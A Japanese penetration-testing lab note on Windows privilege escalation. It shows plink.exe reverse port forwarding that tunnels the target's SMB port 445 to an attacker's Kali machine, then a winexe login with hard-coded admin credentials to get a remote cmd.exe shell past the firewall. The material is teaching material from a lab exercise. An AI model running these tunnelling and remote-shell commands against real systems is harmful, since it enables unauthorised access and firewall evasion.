


Kali上でexploitコードを実行する方が簡単な場合もありますが、脆弱なプログラムは内部ポートでリッスンしています。 このような場合、Kali上のポートをWindowsの内部ポートに転送する必要があります。これにはplink.exeというプログラム（PuTTYの製造元）を使用できます。   
### plink.exe
plink.exeを使用したポートフォワーディングコマンドの一般的な書式です。
```
> plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
plink.exe は Kali に SSH 接続することを要求し、SSH トンネルを使用してポートを転送します。
# Privilege Escalation
1. まず、winexeでリモートログインができることを確認します。
```
# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```
2. 管理者用コマンドプロンプトを使用して、ファイアウォールを再度有効化する。
```
> netsh advfirewall set allprofiles state on
```
3. これでwinexeコマンドが失敗することを確認します。
4. plink.exeをWindowsにコピーし、KaliのSMBサーバを停止させます（使用している場合）。
5. Kali の SSH サーバーが動作しており、root ログインを許可していることを確認します。etc/ssh/sshd_config で "PermitRootLogin yes" オプションがコメントアウトされていないことを確認します。 必要であれば SSH サービスを再起動します。
6. Windowsでは、plink.exeを使用して、Kaliのポート445をWindowsのポート445に転送してください。
```
> plink.exe root@192.168.100.153 -R 445:127.0.0.1:445
plink.exe root@192.168.100.153 -R 445:127.0.0.1:445
Using username "root".
root@192.168.100.153's password: toor

※プロンプトは返ってこない
```
netstatコマンドで445がLISTENしているのを確認する




7. Kali では、winexe コマンドを localhost (または 127.0.0.1) を指すように修正し、ポートフォワード経由でシェルを取得するように実行します。
```
# winexe -U 'admin%password123' //localhost cmd.exe
```





